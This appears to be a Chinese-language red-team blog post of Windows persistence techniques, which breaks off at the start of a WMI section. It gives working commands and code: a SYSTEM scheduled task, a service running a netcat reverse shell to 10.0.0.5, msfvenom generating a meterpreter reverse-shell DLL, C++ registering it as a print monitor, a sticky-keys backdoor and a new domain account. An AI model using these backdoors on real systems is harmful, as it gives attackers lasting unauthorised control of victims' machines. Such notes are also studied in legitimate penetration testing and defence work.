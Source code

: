 ```yaml
---
title: 持久化
date: 2023-07-19 16:46:54
tags:
categories:
- 红队
---
```




# 用于持久性的 DLL 代理



就是dll劫持

# 计划任务

创建一个新的计划任务，每分钟启动 shell.cmd：

```
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
```

# 服务执行

```c
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```

# 粘滞键

将原来的 sethc.exe 替换为 cmd.exe 并重命名。您可能需要首先将 sethc.exe 所有者更改为自己，因为 TrustedIntaller 可能会给您带来困难：

在登录屏幕上按 5 次 Shift 键以调用后门：

# 创建账户

net user test test123 /add /domain

# 添加监视器

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```

编写并编译一个简单的 C++ 代码来注册监视器端口：

```c
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```

将evil64.dll移至`%systemroot%`并执行编译后的`monitor.cpp`

# 滥用 Windows 管理工具

WMI 事件由 3 个关键部分组成：

事件过滤器 - 系统将侦听的条件（即创建新进程、添加新磁盘等）

事件消费者 - 消费者可以在触发事件过滤器时执行操作（即运行程序、记录到日志文件、执行脚本等）

过滤器到消费者的绑定 - 将事件过滤器和事件消费者结合在一起以便调用事件消费者的粘合物质。

WMI 事件既可以被攻击者使用（持久性，即在系统启动时启动有效负载），也可以被防御者使用（在其创建时杀死进程evil.exe）。



创建`WMI __EVENTFILTER`,`WMI __EVENTCONSUMER`和`WMI __FILTERTOCONSUMERBINDING`:
